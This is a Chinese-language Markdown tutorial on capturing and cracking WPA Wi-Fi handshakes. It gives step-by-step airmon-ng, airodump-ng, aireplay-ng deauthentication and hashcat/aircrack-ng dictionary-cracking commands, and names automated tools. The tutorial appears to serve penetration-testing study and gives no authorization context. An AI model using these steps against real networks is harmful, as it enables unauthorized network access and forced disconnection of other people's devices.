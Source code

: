 # WPA 握手包攻击

## 手动

1. 查看網絡設備, 獲取無線網卡名稱.

    ```sh
    iwconfig
    ```

2. 開啓無線網卡監聽模式.

    ```sh
    sudo airmon-ng start wlan0
    ```

    若设备被占用, 执行下列命令来结束占用设备的进程:  

    ```sh
    sudo airmon-ng check kill
    ```

    開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

    !!! warning
        監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 Wi-Fi 信號.

    ```sh
    sudo airodump-ng wlan0mon
    ```

    當發現目標 Wi-Fi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 Wi-Fi 通信內容.

    ```sh
    sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
    ```

5. 斷開指定設備與指定 Wi-Fi 的鏈接.

    ```sh
    sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
    ```

    目標設備從指定 Wi-Fi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第 4 步將會捕獲這個握手包.

6. 當第 4 步提示捕獲握手包時按下 `Ctrl+C` 結束監聽.

    此時, 握手包的數據已經被記錄在第4步指定的 `.cap` 文件中.

7. 對 `.cap` 文件中握手包的 hash 進行破解.

    - 使用 Hashcat. (推薦)

        ```sh
        aircrack-ng [.cap存檔文件] -j [.haccpx文件名称] # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
        hashcat -m 2500 -a 0 [.hccapx文件] [字典文件]   # 利用 hashcat 進行破解
        ```

    - 使用 aircrack-ng.

        ```sh
        aircrack-ng [.cap存檔文件] -w [字典文件]
        ```

8. 關閉無線網卡監聽模式.

    ```sh
    sudo airmon-ng stop wlan0mon
    ```

    若第 2 步中结束的进程没有自动恢复, 则需要手动启动.

## 自动

可以利用 [Wi-Fite2](https://github.com/derv82/Wi-Fite2)/[WEF](https://github.com/D3Ext/WEF) 来简化上面的流程.  

![Wi-Fite2 WAP Handshake attack](https://camo.githubusercontent.com/241679fd57d09ce160bbaf04886b896d1d101d405fc4d692954beefc8e477a07/68747470733a2f2f692e696d6775722e636f6d2f4636565068626d2e676966)
